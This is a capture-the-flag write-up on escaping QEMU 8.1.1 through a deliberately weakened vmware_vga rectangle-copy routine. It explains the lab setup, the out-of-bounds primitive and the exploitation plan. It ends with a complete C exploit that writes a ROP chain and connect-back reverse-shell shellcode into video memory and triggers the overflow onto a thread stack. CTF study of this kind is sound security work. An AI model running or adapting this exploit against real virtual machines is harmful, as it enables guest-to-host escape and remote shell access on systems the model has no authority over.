



## Ptmoon

was a qemu escape challenge from Molecon CTF Finals 2023. The challenge was hard and had few solves during the CTF.

A very interesting challenge,running in a recent version of qemu.

------

### 1 - The setup

The author provide us a `Dockerfile`, with a diff patch to [qemu-8.1.1](https://download.qemu.org/qemu-8.1.1.tar.xz) , and use [ubuntu-23.10.1-desktop-amd64.iso](https://releases.ubuntu.com/mantic/ubuntu-23.10.1-desktop-amd64.iso) as the system base.

We will modify a bit the original Dockerfile, to add gdbserver for debugging, and to launch the `qemu-system-x86_64` via gdbserver.

```sh
FROM ubuntu:23.10

COPY qemu-8.1.1-patched /build
COPY ubuntu-23.10.1-desktop-amd64.iso /img/ubuntu-23.10.1-desktop-amd64.iso

WORKDIR /build
RUN apt-get update && apt-get install -y wget xz-utils git libglib2.0-dev libfdt-dev libpixman-1-dev zlib1g-dev ninja-build meson libslirp-dev python3-venv flex bison gdbserver
RUN ./configure --enable-slirp --enable-debug && cd build && make -j

COPY flag.txt /flag.txt

ENTRYPOINT gdbserver 127.0.0.1:1234 /build/build/qemu-system-x86_64 -enable-kvm -cdrom '/img/ubuntu-23.10.1-desktop-amd64.iso' -monitor none -serial stdio -net nic,model=virtio -net user,hostfwd=tcp::22-:22 -device vmware-svga -m 2048M -smp 2 -vnc 0.0.0.0:0
```

So, before building the docker, we need to have these files in the same directory:

+ `flag.txt` will contain a choosen flag
+ `ubuntu-23.10.1-desktop-amd64.iso` is the live CD of ubuntu 23.10, just choose try ubuntu in the menu.
+ `qemu-8.1.1-patched` will contain qemu-8.1.1 sources with the diff file applied to it.

Here are all the commands to prepare the setup:

```sh
wget https://releases.ubuntu.com/mantic/ubuntu-23.10.1-desktop-amd64.iso
wget https://download.qemu.org/qemu-8.1.1.tar.xz
tar xf qemu-8.1.1.tar.xz && mv qemu-8.1.1 qemu-8.1.1-patched
cd qemu-8.1.1-patched && patch -p1 < ../diff.patch && cd ..
echo "FLAG{GiveMeTheFLagPlease}" > flag.txt
docker build -t ptmoon .
```

During the docker building process, qemu will be compiled with the `--debug` argument which will provide us debug symbols for debugging. Depending on your processor, the building process could take a bit of time.

I also add `hostfwd=tcp::22-:22`to the command line that launch qemu, to export port 22 from inside the qemu vm, to inside in the docker. We will again export port 22 from inside the docker, to outside the docker to port 12222 (to not interfere with our eventual local ssh server), that will permit us to connect via ssh to the vm running inside qemu, which is more easy than working only with the qemu graphical interface, and will permit us to transfer and compile our exploit inside the vm.

Last but not least, you can see that the qemu command line in the docker, will start a vnc server to connect to the graphical interface of the VM running inside qemu. We will export the vnc port too from inside the docker to outside.

So the docker command for running all will be:

```sh
docker run -p 5900:5900 -p 1234:1234 -p 12222:22 --device=/dev/kvm -it ptmoon
```

We will export port 5900 (vnc), port 1234 (gdbserver port), and port 22 to port 12222 (will be the ssh server).

When we will launch the docker, the qemu process will be blocked by gdbserver that will wait for us to connect to port 1234 before starting. So in another terminal windows , we will launch gdb as this:

```sh
gdb -ex 'source ~/gef.bata24.git/gef.py' -ex 'handle SIGUSR1 nostop' -ex 'target remote 127.0.0.1:1234' -ex 'file qemu-system-x86_64' -ex 'c'
```

as always I will use wonderful bata24 gef fork as an helper for gdb ([https://github.com/bata24/gef.git](https://github.com/bata24/gef.git))

so, as you will launch gdb, the qemu process will start booting ubuntu live cd. 

In another terminal you can launch now your prefered vnc viewer, for example:

```sh
gncviewer 127.0.0.1 &
```

Now you will have graphical access to the qemu VM,  where you can configure it quick to allow building files in it, and to install ssh in it too as this:


> When you will launch your vnc viewer, the VM will take a bit of time to boot and reach the ubuntu install menu, so be patient.

If you do as in the animation above, now ssh is running and you can connect from outside the docker, to the VM running inside qemu with:

```sh
ssh -p 12222 ubuntu@127.0.0.1
```

You can also use scp to transfer your exploit to the VM, and compile it inside the vm.

We have everything to work now, so let's have a look to the vulnerability.

**A last detail:**  The author of the challenge told that ASLR is disabled remotely, so as it is not possible to disable it at the docker level (maybe I'm wrong with this), we will have to disable the ASLR in the kernel in our machine by doing before running the docker.

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

------

### 2 - The vulnerability

Let's have a look at the qemu diff file provided:

```c
--- qemu-8.1.1/hw/display/vmware_vga.c	2023-09-21 22:20:52.000000000 +0200
+++ qemu-8.1.1-patched/hw/display/vmware_vga.c	2023-11-24 14:36:53.919868312 +0100
@@ -428,23 +428,23 @@
     int line = h;
     uint8_t *ptr[2];
 
-    if (!vmsvga_verify_rect(surface, "vmsvga_copy_rect/src", x0, y0, w, h)) {
-        return -1;
-    }
-    if (!vmsvga_verify_rect(surface, "vmsvga_copy_rect/dst", x1, y1, w, h)) {
-        return -1;
-    }
+    // if (!vmsvga_verify_rect(surface, "vmsvga_copy_rect/src", x0, y0, w, h)) {
+    //     return -1;
+    // }
+    // if (!vmsvga_verify_rect(surface, "vmsvga_copy_rect/dst", x1, y1, w, h)) {
+    //     return -1;
+    // }
 
     if (y1 > y0) {
         ptr[0] = vram + bypp * x0 + bypl * (y0 + h - 1);
         ptr[1] = vram + bypp * x1 + bypl * (y1 + h - 1);
-        for (; line > 0; line --, ptr[0] -= bypl, ptr[1] -= bypl) {
+        for (; line >= 0; line --, ptr[0] -= bypl, ptr[1] -= bypl) {
             memmove(ptr[1], ptr[0], width);
         }
     } else {
         ptr[0] = vram + bypp * x0 + bypl * y0;
         ptr[1] = vram + bypp * x1 + bypl * y1;
-        for (; line > 0; line --, ptr[0] += bypl, ptr[1] += bypl) {
+        for (; line >= 0; line --, ptr[0] += bypl, ptr[1] += bypl) {
             memmove(ptr[1], ptr[0], width);
         }
     }
```

The patch modify the `vmsvga_copy_rect()`function in the `vmware_vga.c` driver.

This function emulates an accelerated block copy in image, it takes a source pos `x`, `y`, and a destination pos `x1`, `y1`, with a width and height `w`, `h`. The driver emulate the accelerated copy by a serie of `memmove`

The patch remove the sanity checks `vmsvga_verify_check()`on `x`,`y`, `x1`, `y1`, `w`, `h`. These checks test if the block fit in the screen, if coordinates are not negative, etc, etc..

So we will be able to use negative coordinates , and to do the copy outside the bounds of the screen buffer.

The patch also modify the line counter comparaisons,  `line > 0`, and replace them with `line >= 0`, which introduce too a one line overflow in transfers..

> So what we have here, is a powerful `out of bounds read/write primitive`. More than enough to exploit qemu as you will see.

------

### 3 - How to exploit this ?

So, we need to exploit `vmsvga_copy_rect()` low level copy block function. But how to reach it?

I first put a breakpoint at `vmsvga_copy_rect()` function in gdb, and look if the Xfree video driver was using the function. by moving windows, etc.. but the breakpoint was never hit. That means that the xfree drivers does not use this function in the vmware svga drivers. ok..

So I tried to do accelerated blit with SDL library, and with X11 xshm too,  and the breakpoint was never reached too.. 😭

So last options, we will have to access the low level svga driver, and to study how commands are passed to it.

**So Let's dive into VGA Hardware**

The vga commands are passed via a FIFO to the svga vmware driver. It emulates the vga hardware. This FIFO is a memory mapped zone, initialised in `vmsvga_init()`function at line 1260:

```c
...
s->fifo_size = SVGA_FIFO_SIZE;
    memory_region_init_ram(&s->fifo_ram, NULL, "vmsvga.fifo", s->fifo_size,
                           &error_fatal);
    s->fifo_ptr = memory_region_get_ram_ptr(&s->fifo_ram);
...
```

Its address is stored at `s->fifo_ptr` and it's default size is 0x10000 bytes.

it is a PCI memory mapped region you can see it by inspecting the memory mapped regions of the VGA card in the VM:

```sh
cat /sys/devices/pci0000\:00/0000:00:03.0/resource
0x000000000000c030 0x000000000000c03f 0x0000000000040101
0x00000000fd000000 0x00000000fdffffff 0x0000000000042208
0x00000000fe000000 0x00000000fe00ffff 0x0000000000042208    <--- FIFO buffer of 0x10000 bytes
0x0000000000000000 0x0000000000000000 0x0000000000000000
...
```

it is accessible and can be mapped by accessing:

```sh
/sys/devices/pci0000\:00/0000:00:03.0/resource2
```

This memory region begins with four 32bits registers that are loaded in `vmsvga_state_s`bigger structure by function `vmsvga_fifo_length()` (line 562):

```c
    ...
    s->fifo_min  = le32_to_cpu(s->fifo[SVGA_FIFO_MIN]);   // SVGA_FIFO_MIN = 0
    s->fifo_max  = le32_to_cpu(s->fifo[SVGA_FIFO_MAX]);   // SVGA_FIFO_MAX = 1
    s->fifo_next = le32_to_cpu(s->fifo[SVGA_FIFO_NEXT]);  // SVGA_FIFO_NEXT = 2
    s->fifo_stop = le32_to_cpu(s->fifo[SVGA_FIFO_STOP]);  // SVGA_FIFO_STOP = 3
    ...
```

the `vmsvga_fifo_length()`function will do some sanity checks on their value, and will return:

```c
num = s->fifo_next - s->fifo_stop;
return num >> 2;
```

which is the number of instructions left to be processed in the FIFO.

then the FIFO commands are processed by function `vmsvga_fifo_run()` which start by calling `vmsvga_fifo_length()` function to check if there are commands left to be processed in the FIFO.

And in this case,it will enter a `switch` statement executing commands left to be processed.

For each command it will check if the number of arguments is correct, and will call the right function for processing this command.

For us the command is `SVGA_CMD_RECT_COPY`(which number is 3) and it will takes six arguments (7 with the command number):

```c
case SVGA_CMD_RECT_COPY:
            len -= 7;
            if (len < 0) {
                goto rewind;
            }
			x = vmsvga_fifo_read(s);
            y = vmsvga_fifo_read(s);
            dx = vmsvga_fifo_read(s);
            dy = vmsvga_fifo_read(s);
            width = vmsvga_fifo_read(s);
            height = vmsvga_fifo_read(s);
            if (vmsvga_copy_rect(s, x, y, dx, dy, width, height) == 0) {
                break;
            }
```

> Each arguments and commands on the FIFO are 32bit numbers.

Ok so I made a poc where I mmapped the FIFO region, and write a FIFO command in it to reach the vulnerable `vmsvga_copy_rect()` function:

```c
unsigned int read_val(int index) {
    return *(unsigned int *)(map_base+index);
}
unsigned int write_val(unsigned int index, int val){
        *(int *)(map_base+index) = val;
}
void copyrect(int x, int y, int dx, int dy, int width, int height){
unsigned int pos;
        pos = fifo_stop;
        write_val(pos, SVGA_CMD_RECT_COPY);   pos+=4;
        write_val(pos, x);   pos+=4;
        write_val(pos, y);   pos+=4;
        write_val(pos, dx);   pos+=4;
        write_val(pos, dy);   pos+=4;
        write_val(pos, width);   pos+=4;
        write_val(pos, height);   pos+=4;
        fifo_next = pos;
        write_val(8, pos);
}
```

then doing:

```c
copyrect(0,0, 0,-1, 2,1);
```

and **BINGO** 🥳 I did hit my breakpoint at `vmsvga_copy_rect()`, and with a destination `y`value of `-1`, the `memmove()` function  tried to copy data from screen `vram` memory to an out of bound address just one line of pixel  before the vram memory (800*4 bytes in this case, as the resolution was 800x600).

> So now we can reach the vulnerability and copy data from screen to another memory zone outside the screen memory.

**Next step, was how to put data in the screen memory, that will be copied by our `OOB`write primitive?**

For this I use a very simple approach, I did open a X11 windows in root windows (the desktop screen), in full screen, then I use X11 standard drawing function, to write the data I want, like this:

```c
Uint32 val = 0xdeadbeef;
XSetForeground(display, gc, val );    // set color to the 0xdeadbeef color (best one)
XDrawPoint(display, window, gc, x, y);  // draw the pixel with selected color at x, y pos
```

Well, very primitive method,  but it works well. You can write a 32bit value like this where you want on screen, and so in the screen vram memory.

> So the plan, was write our ROP or shellcode first in the screen memory, then with the `OOB`write primitive write it somewhere to get code execution..

------

**4 - Getting code execution**

Our VM is running in graphical mode, qemu is a multithreaded application, and the `qemu-system-x86_64` is using libc version 2.38.

So getting code execution is not as simple as writing a `one_gadget`somewhere and getting a shell.

We are connected to the remote VM via a `VNC` server, so we need another strategy to get code execution.

So I started inspecting the memory around the screen vram buffer, to see what I can reach, and what was the better options to get code execution..

Inspecting the memory zone just before our screen vram buffer (that start at 0x7fff66c00000), I see that memory zone:



Well for an educated eye, looks a lot like a stack memory zone. You can see functions ptr and canary in it...

But when inspecting it from out breakpoint hit at `vmsvga_copy_rect()`, it is not our stack, as our `rsp`register does not point to it..

So I understood that it belongs to another thread, let's look at threads running:



so you can see in the picture above, that no less than 7 threads are running, as I said before qemu is a multithreaded application..

So my test was to write trash values in this stack to see if we can have a nice SIGSEGV..and it worked..

**Nice, so what is the plan next ?**

Well, my plan was to write a ROP to this stack frame, that will do a `mprotect`syscall to change the screen memory zone  permissions to RWX, and to write a shellcode in it that will connect back to a chosen server, and will launch a shell.

> So, we will use a connect back shellcode to get shell here

Next step was to pray that our ROP is being executed.. and locally, it was a bit unreliable, sometimes works (with some delay), and sometimes looks like it was not executed.

So I decided to try it remotely on the provided challenge instance, and there,  curiously it works immediatly, and I received a shell connection on my server.



So that's finished, we did pwn qemu 8.1.1 running on ubuntu 23.10.

It was an interesting adventure to exploit a VGA driver at low-level in qemu..

------

### 5 - The exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <X11/Xlib.h>

// gadget that we will use, ASLR being disabled, libc & proc mapping addresses are fixed
#define PROG_BASE 0x0000555555554000
#define LIBC_BASE 0x00007ffff7844000
#define add_rsp (LIBC_BASE+0x0000000000043857) // add rsp, 0xa8 ; ret
#define add_rsp2 (LIBC_BASE+0x000000000008b3b0) // add rsp, 0xb0 ; pop rbx ; ret
#define gsyscall (LIBC_BASE+0x00000000000942b6)  // syscall; ret;
#define pop_rax PROG_BASE+0x00000000006d488f  // pop rax ; ret
#define pop_rdi PROG_BASE+0x000000000066e72d  // pop rdi ; ret
#define pop_rsi PROG_BASE+0x000000000052c044  // pop rsi ; ret
#define pop_rdx PROG_BASE+0x000000000038f0aa  // pop rdx ; ret

// connect back reverse shellcode
unsigned char shellc[] = {0x48, 0x83, 0xec, 0x70, 0x6a, 0x29, 0x58, 0x99, 0x6a, 0x2, 0x5f, 0x6a, 0x1, 0x5e, 0xf, 0x5, 0x97, 0xb0, 0x2a, 0x48, 0xb9, 0xfe, 0xff, 0xcf, 0x35, 0xfa, 0x0, 0x93, 0x3f, 0x48, 0xf7, 0xd9, 0x51, 0x54, 0x5e, 0xb2, 0x10, 0xf, 0x5, 0x6a, 0x3, 0x5e, 0xb0, 0x21, 0xff, 0xce, 0xf, 0x5, 0x75, 0xf8, 0x99, 0x52, 0x48, 0xb9, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x51, 0x54, 0x5f, 0xb0, 0x3b, 0xf, 0x5,0x90,0x90,0x90};

// rop do mprotect(0x7fff66c00000,0x1000,7) to make screen memory RWX then increase rsp and jump to shellcode
uint64_t rop[] = { pop_rax, 10, pop_rdi, 0x7fff66c00000, pop_rsi, 0x1000, pop_rdx, 7, gsyscall, add_rsp2, 0x00007fff66c00068, 0x00007fff66c00068, 0x00007fff66c00068 };

unsigned int fifo_min, fifo_max, fifo_next, fifo_stop;

#define SVGA_CMD_UPDATE 1
#define SVGA_CMD_RECT_COPY 3

char filename[] = "/sys/devices/pci0000\:00/0000\:00\:03.0/resource2";
void *map_base;

unsigned int read_val(int index) {
	return *(unsigned int *)(map_base+index);
}

unsigned int write_val(unsigned int index, int val) {
        *(int *)(map_base+index) = val;
}

void copyrect(int x, int y, int dx, int dy, int width, int height)
{
unsigned int pos;

	pos = fifo_stop;
	write_val(pos, SVGA_CMD_RECT_COPY);   pos+=4;
	write_val(pos, x);   pos+=4;
	write_val(pos, y);   pos+=4;
	write_val(pos, dx);   pos+=4;
	write_val(pos, dy);   pos+=4;
	write_val(pos, width);   pos+=4;
	write_val(pos, height);   pos+=4;
	fifo_next = pos;
	write_val(8, pos);
}

int main() {
void *virt_addr;
off_t target, target_base;
int map_size = 0x10000;
int fd;
unsigned long long *src;
int i;

	if((fd = open(filename, O_RDWR | O_SYNC)) == -1)
	{
		printf("Error opening device\n");
		exit(-1);
	}
	target = 0;
	target_base = target & ~(sysconf(_SC_PAGE_SIZE)-1);
	map_base = mmap(0, map_size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target_base);
	if(map_base == (void *) -1)
	{
		printf("Error mapping device\n");
		exit(-1);
	}

	printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);
	fflush(stdout);
	
	Display *display = XOpenDisplay(NULL);
    if (!display) {
        fprintf(stderr, "Unable to open X display\n");
        return 1;
    }
    // get actual values of FIFO registers from mapped memory
	fifo_min = read_val(0);
	fifo_max = read_val(4);
	fifo_next = read_val(8);
	fifo_stop = read_val(12);
	printf("fifo_min = 0x%x\n", fifo_min);
	printf("fifo_max = 0x%x\n", fifo_max);
	printf("fifo_next = 0x%x\n", fifo_next);
	printf("fifo_stop = 0x%x\n", fifo_stop);
	
    int screen = DefaultScreen(display);
    Window root = RootWindow(display, screen);

    // Get the width and height of the screen
    int width = DisplayWidth(display, screen);
    int height = DisplayHeight(display, screen);

    // Create a borderless window
    Window window = XCreateSimpleWindow(display, root, 0, 0, width, height, 0, 0, BlackPixel(display, screen));

    // Set window attributes for a borderless window
    XSetWindowAttributes swa;
    swa.override_redirect = True;
    XChangeWindowAttributes(display, window, CWOverrideRedirect, &swa);

    // Map the window
    XMapWindow(display, window);
    XFlush(display);

    // Create a graphics context
    GC gc = XCreateGC(display, window, 0, NULL);

    // COPY ROP in vram screen memory
    for (i=0; i<sizeof(rop); i+=4)
    {
	XSetForeground(display, gc, *(unsigned int *)((void *)&rop[0]+i) ); // Red color
    	XDrawPoint(display, window, gc, (i>>2), 0);
    	XFlush(display);
	}

    // copy shellcode after ROP
     for (i=0; i<sizeof(shellc); i+=4)
    {
        XSetForeground(display, gc, *(unsigned int *)((void *)&shellc[0]+i) ); // Red color
        XDrawPoint(display, window, gc, 26+(i>>2), 0);
        XFlush(display);
        }

    // take a nap
    sleep(2);
    copyrect(0,0,width-42,-1,(sizeof(rop)/4),1);

    // Wait for a key press
    XEvent event;
    XNextEvent(display, &event);

    // Clean up
    XFreeGC(display, gc);
    XDestroyWindow(display, window);
    XCloseDisplay(display);

    return 0;
}
```

that's it. as always:  **nobodyisnbody still pwning things...** 

------

but a bit sad this 30 november 2023 when I heard the news of the death of `Shane MacGowan` during the ctf.

So.. a thought for him, that was a funny / drunken / irish poet and singer.

As poets never really die, a bit of him will remains... [https://youtu.be/j9jbdgZidu8](https://youtu.be/j9jbdgZidu8) and [https://youtu.be/zNtQ5AnRlz8](https://youtu.be/zNtQ5AnRlz8)